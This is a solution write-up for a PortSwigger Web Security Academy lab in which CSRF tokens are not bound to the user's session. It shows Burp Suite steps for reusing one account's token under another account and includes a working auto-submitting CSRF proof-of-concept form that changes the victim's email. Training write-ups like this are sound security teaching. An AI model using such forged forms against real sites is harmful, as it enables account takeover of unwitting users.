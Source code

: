 [Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they are not integrated into the site's session management system.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You have two accounts in the application that you can use to develop the attack. The credentials are:
`wiener:peter`
`carlos:montoya`
## Solution
Go to the task site

![image](images/20241224171524.png)

Log in as `wiener` and change the email. When changing email, intercept the request via `Burp Suite` and copy the CSRF token. After that, drop the request.

![image](images/20241224172725.png)

```CSRF
sPOdVVO9xk9I86ZNBkBkzwozINP2F61m
```
Then open a new window in incognito mode and log in as the second user `carlos`

![image](images/20241224172449.png)

Change email, but specify the CSRF token from `wiener` in the request

![image](images/20241224172839.png)

Then generate `CSRF PoC` and copy the HTML code, drop the request.
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4100dc04cba2988066e97700e40026.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="DeX1d&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="sPOdVVO9xk9I86ZNBkBkzwozINP2F61m" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](images/20241224172906.png)

Go to `Exploit Server` and paste that HTML code into the `Body` field.

![image](images/20241224173030.png)

Then click `Store` and `Deliver exploit to victim`

![image](images/20241224173046.png)
